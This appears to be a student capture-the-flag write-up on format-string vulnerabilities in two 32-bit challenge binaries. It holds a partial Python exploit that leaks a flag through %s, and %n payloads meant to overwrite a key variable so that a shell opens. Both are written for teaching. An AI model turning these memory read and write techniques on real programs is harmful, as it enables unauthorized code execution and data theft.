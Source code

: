<!--
checksec program
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)

Análise do source code
Linha do código onde está a vulnerabilidade
- printf(buffer). buffer's contents from the user's input, i.e. controlled by the user. This is vulnerable to a format string attack. We can easily supply a format string that prints the contents of the program's memory.
- This vulnerability allows the printing of the program's memory, the stack and heap, and allows writing on it.
- To read the flag, we need to pass the address of the flag to printf. Then, by using the %s format string, we can print the flag's contents. We need make %s read the address of the flag that we passed, as we did in the seedlabs guide.

In checksec, we can see that PIE is not enabled. This means that the addresses of the program are fixed. As sugested on the moodle assignment, we can use gdb to find the address of the flag variable, which is located on the heap.

b main
run
next
p &flag

Using p &flag, we can find the address of the flag.
0x804c060

Or we can run python3 exploit_example.py which pauses the execution

Then we can attach in another terminal to the process by doing
gdb attach <pid>
p &flag
0x804c060

Since PIE is disabled, we can use this same address for the server, and it works.
-->
```python

N = 32	# 32 bytes read in total
content = bytearray(0x0 for i in range(N))

flag_addr = 0x804c060   # the flag address read in the local instance using gdb
content[0:4] = (flag_addr).to_bytes(4,byteorder='little')

s = "%s"

fmt  = (s).encode('latin-1')
content[4:4 + len(fmt)] = fmt


p.recvuntil(b"got:")
p.sendline(content)
p.interactive()

```


## Challenge 2
<!--
checksec program
Arch:     i386-32-little
RELRO:    No RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)


Análise source code:
- The vulnerability is the same, it's the line `printf(buffer)`. buffer is given/controlled by user input. We can provide a format string as input. This allows us to print the contents of the program's memory, as well as writing on the memory.
- In this challenge, the flag is not in memory when the vulnerable printf(buffer) executes. This means we cannot simply read the flag from memory. However, in this case, a shell program is launched if a certain variable in the program's heap has a defined value. So, we just need to change the value of that variable (key) to be the one that passes the if clause. In that case, we'll gain access to the shell and be able to read the contents of the file flag.txt, by doing "cat flag.txt".

The value to pass the if clause is "0xbeef", which is 48879 in decimal.
To write values in the program's memory using a format string vulnerability, we must use %n, which prints the number of characters read until that point on the string. So we need to print 48879 characters in that printf. Then, we just do as in the guide. We need to know the address of the "key" variable. If %n sees that address as the argument, it will change the value of that variable with the characters read.

We can copy the python file from the first challenge and change a few things. We need to change the server to be 4005, and start by testing locally (LOCAL = True)
We need to also change the receive until to be until we receive a '...' sequence, since it is different in this challenge.

We can do the same as before. First run the program using python exploit.py in a terminal, and then attaching to that process using gdb attach <pid>

Then inside gdb, we can simply do:

gdb-peda$ p &key
$1 = (int *) 0x804b320 <key>

and we have read the address of the key variable (inside the heap).
Since there is no PIE, we know this address will be fixed.


%48879x%n


Put:
any 4 bytes at the beginning of the string
the 4 bytes for the address of the variable "key"
%(bignumber)x   -> will read the first 4 bytes of the string as an argument
%n  -> will read the address of the variable "key" as an argument, effectively writing the number of characters printed until now in that variable

48879 - 8 = 48871

"0000<addr>%48871x%n"




Since this was not working, we tried this input:


s = "ABCD" + "%x" * 8
fmt = (s).encode('latin-1')
content[0: len(fmt)] = fmt

It resulted in this output
You gave me this:ABCD4443424178257825782578257825782578257825000
It shows that the first %x reads the "ABCD", as we expected


-->
